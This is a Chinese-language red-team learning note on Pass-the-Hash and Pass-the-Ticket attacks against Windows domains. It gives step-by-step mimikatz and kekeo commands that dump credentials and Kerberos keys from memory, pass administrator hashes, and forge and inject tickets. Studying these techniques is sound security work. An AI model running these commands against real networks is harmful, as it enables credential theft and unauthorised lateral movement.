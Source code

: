 ```yaml
---
title: 【内网学习笔记】21、哈希传递与票据传递
date: 2021-09-01 16:03:49
id: 210901-160349
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210901154851.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、哈希传递

哈希传递（Pass The Hash, PTH）顾名思义，就是利用哈希去登录内网中的其他机器，而不是通过明文密码登录的方式。

通过哈希传递，攻击者不需要花时间破解哈希值得到明文，在Windows Server 2012 R2及之后版本的操作系统中，默认不会在内存中保存明文密码，Mimikatz 就读不到密码明文，因此此时往往会使用工具将哈希值传递到其他计算机中进行登录验证。

### NTLM Hash

在目标主机上使用 mimikatz 获取 NTLM Hash

```
privilege::debug
sekurlsa::logonpasswords
```

在远程主机上以管理员权限打开 mimikatz

```
privilege::debug
sekurlsa::pth /user:administrator /domain:teamssix.com /ntlm:161cff084477fe596a5db81874498a24
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210901120511.png)

mimikatz 执行后，会弹出一个拥有对应 Hash 用户权限的 CMD 窗口。

### AES-256 密钥

使用 mimikatz 抓取密钥

```
privilege::debug
sekurlsa::ekeys
```

在其他远程计算机中，以管理员权限打开 mimikatz

```
privilege::debug
sekurlsa::pth /user:administrator /domain:teamssix.com /aes256:7358fb65149672d99b8c9f3dfd0dfeb486b78268e9c5250b23aefbd26f293c60
```

这里需要目标机器上安装 KB2871997 补丁，补丁下载地址：[https://www.microsoft.com/en-us/download/details.aspx?id=42722](https://www.microsoft.com/en-us/download/details.aspx?id=42722)

将该补丁安装后，就可以通过 AES256 密钥进行哈希传递了。

除了 AES256 外还有 AES128 等，不过平时基本都是使用 NTLM 哈希进行传递。

## 2、票据传递

票据传递（Pass The Ticket, PTT），是基于Kerberos认证的一种攻击方式，这里主要学习票据传递在 mimikatz 和 kekeo 两个工具里的使用。

### mimikatz

使用 mimikatz 可以将内存中的票据进行导出。

```
privilege::debug
sekurlsa::tickets /export
```

执行该命令后，会在当前目录下生成多个服务的票据文件，例如 kirbi 等

使用以下命令可以清除内存中的票据

```
kerberos::purge
```

将票据文件注入内存

```
kerberos::ptt "[0;4beae]-2-0-40e00000-Administrator@krbtgt-TEAMSSIX.COM.kirbi"
```

在当前终端下退出 mimikatz ，然后就可以列出目标目录了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210901153402.png)

票据传递除了用 mimikatz 还可以用 kekeo

### kekeo

kekeo 需要使用域名、用户名、NTLM HASH 生成票据，然后再将票据导入，从而连接远程计算机。

```
tgt::ask /user:administrator /domain:teamssix.com /ntlm:161cff084477fe596a5db81874498a24
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210901154851.png)

在 kekeo 中清楚当前内存中的其他票据，不然可能会导致票据传递失败

```
kerberos::purge
```

在 Windows 命令行中也可以执行系统自带的命令进行内存中的票据清除

```
klist purge
```

使用以下命令将票据导入内存，之后 exit 退出 kekeo，使用 dir 命令就可以列出远程文件了。

```
kerberos::ptt "TGT_administrator@TEAMSSIX.COM_krbtgt~teamssix.com@TEAMSSIX.COM.kirbi"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210901155501.png)

注意点：

1、票据文件注入内存的默认有效时间为 10 小时

2、在目标机器上不需要本地管理员权限就可以进行票据传递

3、使用票据传递时，dir 命令必须使用主机名，如果使用 IP 地址会提示拒绝访问。

> 参考文章：
>
> [https://www.cnblogs.com/Xy--1/p/13216686.html](https://www.cnblogs.com/Xy--1/p/13216686.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)



